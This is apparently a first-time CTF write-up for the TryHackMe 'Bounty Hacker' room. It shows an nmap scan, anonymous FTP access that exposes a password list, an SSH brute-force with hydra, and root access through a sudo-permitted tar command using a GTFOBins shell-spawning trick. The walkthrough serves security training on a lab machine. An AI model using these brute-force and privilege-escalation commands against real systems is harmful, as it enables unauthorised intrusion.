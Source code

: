 ## [Bounty Hacker](https://tryhackme.com/room/cowboyhacker#) 
This is my first writeup, so keep that in mind ;)
### Living up to the title

1. Deploy machine
2. Find open ports on the machine

Let's use nmap to start off.
```
┌──(root㉿kali)-[~]
└─#nmap -sC -sV -n $IP
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-14 08:01 UTC
Nmap scan report for 10.10.130.231
Host is up (0.0026s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.111.127
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 02:C3:4B:24:8B:63 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.77 seconds
```

- -sV: determine service/version running on port
- -sC: default script
- -n: no DNS resolution (improves scanning time)

From the nmap scan, we found three open ports on the machine. Port 21, 22 and 80. Ftp, ssh and http respectively. Nmap also tells us, that the ftp server allows anonymous logins: >ftp-anon: Anonymous FTP login allowed (FTP code 230)
which helps us with the following task.

3. Who wrote the task list?
Since there is an ftp server running on our target it might be worth taking a look at it. Since we can log in anonymously we won't need a username:
```
┌──(root㉿kali)-[~]
└─# ftp 10.10.130.231
Connected to 10.10.130.231.
220 (vsFTPd 3.0.3)
Name (10.10.130.231:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||42831|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> 

```
Using the `get task.txt && get locks.txt` we can take a look at the two present files.
Opening up the task.txt file will give us the answer to the first question: *lin*
The locks.txt file seems to harbour passwords in plain text. this will come to use later on.

4. What service can you bruteforce with the text file found?
This question can have to answers. You could try bruteforcing ftp or ssh. Trying our password list on the ftp server does not yield any results, therefore the correct answer to the question is *ssh* in this case.

5. What is the users password?
We already have or at least suspect a username (lin) and a password list, that conviniently jumped right into our faces when logging into the ftp server. Now let's use both of these to try and gain ssh access as *lin*. [Hydra](https://www.kali.org/tools/hydra/) provides the necessary toolset for this action:

```
┌──(root㉿kali)-[~]
└─# hydra ssh://$IP -l lin -P /root/locks.txt -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-14 08:21:54
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.130.231:22/
[22][ssh] host: 10.10.130.231   login: lin   password: [REDACTED]cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-14 08:22:00
```
- -l: define a username
- -P: use a wordlist
- -t: define the number of parallel tasks (some ssh configs reduce the number of parallel tasks, so hydra recommends using -t 4 for ssh)

5. user.txt
Now we can login via ssh: `ssh lin@$IP`
On lin's Desktop we find the user.txt file. We can get the user.txt flag with `cat user.txt`

6. root.txt
Lin does not have the permission to access the root directory. So to find the root flag we have to somehow gain priveleges.
Let's first check what sudo permissions lin has:
 ```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
 ```
To check wether there is a way to gain priviliges we can use [GTFOBins](https://gtfobins.github.io/#) and search for 'tar'.
Trying the first option: `tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cat /root/root.txt                       
THM{###########}
```

That's the last flag! :)






